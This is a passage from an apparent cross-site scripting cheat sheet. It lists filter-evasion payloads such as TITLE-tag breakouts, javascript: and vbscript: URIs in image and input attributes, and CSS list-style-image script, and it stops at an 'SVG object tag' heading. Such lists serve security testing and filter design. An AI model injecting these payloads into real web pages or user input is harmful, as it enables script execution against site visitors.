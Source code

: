 </script>

<script>

alert('XSS');

</script>

## End title tag

This is a simple XSS vector that closes

<TITLE>

tags, which can encapsulate the malicious cross site scripting attack:

`</TITLE><SCRIPT>alert("XSS");</SCRIPT>`

## INPUT image

`<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">`

## BODY image

`<BODY BACKGROUND="javascript:alert('XSS')">`

## IMG Dynsrc

`<IMG DYNSRC="javascript:alert('XSS')">`

## IMG lowsrc

`<IMG LOWSRC="javascript:alert('XSS')">`

## List-style-image

Fairly esoteric issue dealing with embedding images for bulleted lists.
This will only work in the IE rendering engine because of the JavaScript
directive. Not a particularly useful cross site scripting vector:

`<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>`

## VBscript in an image

`<IMG SRC='vbscript:msgbox("XSS")'>`

## Livescript (older versions of Netscape only)

`<IMG SRC="livescript:[code]">`

## SVG object tag
